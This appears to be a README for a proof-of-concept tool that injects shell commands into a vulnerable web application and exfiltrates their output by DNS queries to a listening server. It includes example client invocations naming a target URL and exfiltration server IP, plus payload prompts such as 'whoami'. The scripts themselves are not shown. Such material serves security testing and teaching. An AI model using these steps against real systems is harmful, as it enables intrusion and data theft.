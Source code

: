 # DNS Data Exfiltration Project

This project demonstrates a proof-of-concept for data exfiltration using DNS queries. It involves two components: a `client.py` script to send commands and exfiltrate data, and a `server.py` script to receive and decode the exfiltrated data via DNS queries.

## Features

- **Client Script (`client.py`)**: Encodes and sends commands to a vulnerable web application, which then can be used to exfiltrates data over DNS.
- **Server Script (`server.py`)**: Receives the DNS queries and log the queries to be decoded later with dns-parser.py for analysis.
- **DNS Exfiltrate Parser Script (`dns-parser.py`)**: Parses query logs to decode base32 or hex-encoded exfiltrated data.

## Prerequisites

- Python 3.x
- `dnslib` library (install using `pip3 install dnslib`)
- `requests` library (install using `pip3 install requests`)

## Setup and Usage

### Server (`server.py`)

The server script acts as a DNS server that listens for incoming DNS queries and decodes the exfiltrated data.

### 1. Run the DNS server:

By default, the server runs on port 53 (standard DNS port). You can specify a custom port using the `--port` argument.

```bash
python3 server.py --port 53
```
If no port is provided, the script will prompt you to use the default port or enter a custom port.

Example prompt:

```bash
No port provided. Do you want to use the default port 53? (yes/no): yes
```

### Client (client.py)

The client script sends requests to a vulnerable web application, embedding encoded commands that are exfiltrated via DNS queries.

The client script accepts several command-line arguments to customize the payload and its delivery. Below are the details:

--url: (Required) The URL of the vulnerable application.

Example: --url http://vulnerable-app.com/index.php

--method: (Required) The HTTP method to use for the request. Accepted values are GET or POST.

Example: --method POST

--proxy: (Optional) The proxy URL to route the HTTP request through. This can be useful for testing in controlled environments.

Example: --proxy http://127.0.0.1:8080

--server_ip: (Required) The IP address of the DNS server where the exfiltrated data will be sent.

Example: --server_ip 10.45.5.12

--server_port: (Optional) The port number of the DNS server. Defaults to 53 if not specified.

Example: --server_port 8053


### 2. Run the client script:

#### 2.1. Direct execution

You can run the client.py script and passing the inputs as command-line arguments:

```bash
python3 client.py --url http://vulnerable-app.com --method POST --proxy http://127.0.0.1:8080 --server_ip 192.168.1.1 --server_port 53
```

#### 2.2. Interactive execution

Alternatively, you can run the script without arguments and provide the details interactively:

```bash
python3 client.py
```


#### 2.2.1 Interactive Input:

URL: The URL of the vulnerable application.
HTTP Method: Specify GET or POST.
Proxy: (Optional) Specify a proxy URL if required.
DNS Server IP: IP address of the DNS server receiving the exfiltrated data.
DNS Server Port: Port of the DNS server (default is 53).


#### Example prompt:

```bash
Enter the URL of the vulnerable application: http://vulnerable-app.com/index.php
Enter the HTTP method (GET or POST): POST
Enter the proxy URL (e.g., http://127.0.0.1:8080) or leave blank if not using: 
Enter the DNS server IP for exfiltration: 10.45.5.12
Enter the DNS server port (e.g., 53 or 8053): 8053
```

#### Specify the Payload:

Field Injection: The script allows you to specify fields where the payload will be injected. You'll be asked if the field should contain the command injection payload.

Command Input: You can enter multiple commands which will be encoded and sent via the DNS exfiltration technique.

#### Example prompt:

```bash
Enter the payload field to specify (e.g., host): host
Do you want to inject the payload into this field 'host'? (y/n): y
Enter the payload command (e.g., whoami, ls /) or press Enter to exit: whoami
```

The client will send the constructed payloads to the server, exfiltrating data via DNS queries.

The server will receive and decode these queries, providing the exfiltrated data.

### 3. Monitor the server window to see the exfiltrated data.



### Notes

SSL Warnings: The client script disables SSL warnings, but you should be cautious about using this in a production environment.
Fake DNS Response: The server responds with a fake IP address (127.0.0.1) to all DNS queries, as the focus is on capturing and decoding the query data.

### Disclaimer

This project is for educational purposes only. Unauthorized use of these scripts on any system you do not own or have explicit permission to test is illegal and unethical.